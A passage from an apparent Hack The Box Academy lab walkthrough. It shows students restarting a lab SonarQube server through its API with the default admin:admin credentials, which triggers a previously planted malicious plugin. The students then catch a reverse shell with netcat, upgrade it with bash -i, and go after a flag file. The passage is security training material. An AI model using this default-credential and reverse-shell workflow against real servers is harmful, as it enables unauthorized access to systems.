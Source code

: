 Students must restart the SonarQube application in the other terminal tab by targeting the API.

Code: shell

```shell
curl --user admin:admin -X POST http://sonarqube.inlanefreight.local/api/system/restart
```

```
┌─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-yq9zfr4swf]─[~/pwnrqube/totally-benign-plugin]
└──╼ [★]$ curl --user admin:admin -X POST http://sonarqube.inlanefreight.local/api/system/restart
```

A few seconds after the request, students will realize that a reverse shell has been established.

```
┌─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-yq9zfr4swf]─[~]
└──╼ [★]$ nc -nvlp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.129.228.197.
Ncat: Connection from 10.129.228.197:60376.

id
uid=999(sonarqube) gid=999(sonarqube) groups=999(sonarqube)
```

They can attempt to upgrade their shell prompt utilizing the functionality of bash.

Code: shell

```shell
bash -i
```

```
┌─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-yq9zfr4swf]─[~]
└──╼ [★]$ nc -nvlp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.129.228.197.
Ncat: Connection from 10.129.228.197:60376.

id
uid=999(sonarqube) gid=999(sonarqube) groups=999(sonarqube)
bash -i
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
sonarqube@sonarqube:/opt/sonarqube$ 
```

Having established a shell reverse session, students must `cat` the file from `/home/flag.txt`, presenting them with the flag.

Code: shell
